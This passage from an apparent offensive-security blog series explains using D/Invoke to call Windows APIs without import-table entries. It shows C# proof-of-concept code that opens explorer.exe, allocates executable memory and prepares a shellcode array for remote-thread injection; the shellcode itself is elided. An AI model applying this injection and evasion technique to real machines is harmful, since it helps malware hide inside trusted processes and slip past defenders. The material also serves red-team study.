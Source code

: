 ## D/Invoke
[D/Invoke](https://github.com/TheWover/DInvoke) - Dynamic Invoke was introduced in 2020 as a replacement for P/Invoke. Basically, D/Invoke grants .NET assemblies to dynamically invoking unmanaged APIs:
- Load a DLL into memory
- Get a pointer to a function/API in that DLL
- Call desired API using the pointer while passing in parameters
This is the standard usage of D/Invoke and will avoid directly importing the APIs into our .NET Assembly's IAT.

To do this, D/Invoke works with [Delegates](https://learn.microsoft.com/en-us/dotnet/csharp/programming-guide/delegates/). I'm probably not the best at explaining Delegates since this is my first time doing development in C#, but in my understanding, `Delegates` allows wrapping functions within a class, API calls can now be declared as a class and be used later on. Here is an example of D/Invoke usage to call the `VirtualAllocEx` Win32API:

Creating Delegate for `VirtualAllocEx`:
```C#
	public class DELEGATES {
		[UnmanagedFunctionPointer(CallingConvention.StdCall)]
		public delegate IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
  }
```

Call this Delegate:
```C#
pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "VirtualAllocEx");
DELEGATES.VirtualAllocEx virAllocEx = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.VirtualAllocEx)) as DELEGATES.VirtualAllocEx;
IntPtr allocret = virAllocEx(procInfo.hProcess, IntPtr.Zero, (uint)sheocode.Length, 0x1000 | 0x2000, 0x40); //MEM_COMMIT | MEM_RESERVE
```
1. Get the pointer to `VirtualAllocEx` in `kernel32.dll` via the helper function `GetLibraryAddress`.
2. Use `GetDelegateForFunctionPointer` to convert the function pointer into a delegate and cast it with the same delegate type.
3. Call the API/Instantiate the delegate.

*In this blog post series, I won't be importing the whole D/Invoke project, but only take the neccessary helper functions, structs and enums*

## Project Injection 101
Project Injection is a commonly used technique to inject our shellcode into legitimate target process's virtual memory space. A textbook way to perform project injection is:
1. Find a target process to inject our shellcode into.
2. Allocate a new memory region in the remote target process using `VirtualAllocEx`
3. Write our shellcode into the allocated remote memory region using `WriteProcessMemory`
4. Execute our shellcode as a new thread with `CreateRemoteThread`

Here is a PoC to inject shellcode into `explorer.exe`
```C#
// Get pid of explorer.exe
Process[] explorerProcess = Process.GetProcessesByName("explorer");

// Open a handle to explorer.exe
IntPtr hProcess = OpenProcess(0x001F0FFF, false, explorerProcess[0].Id);

// Allocate remote mem
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
// 0x3000 = MEM_COMMIT | MEM_RESERVE (0x1000 | 0x2000)
// 0x40: PAGE_EXECUTE_READWRITE (RWX)

// shellcode
byte[] buf = new byte[511] {0xfc,0x48,...,0xd5};
```
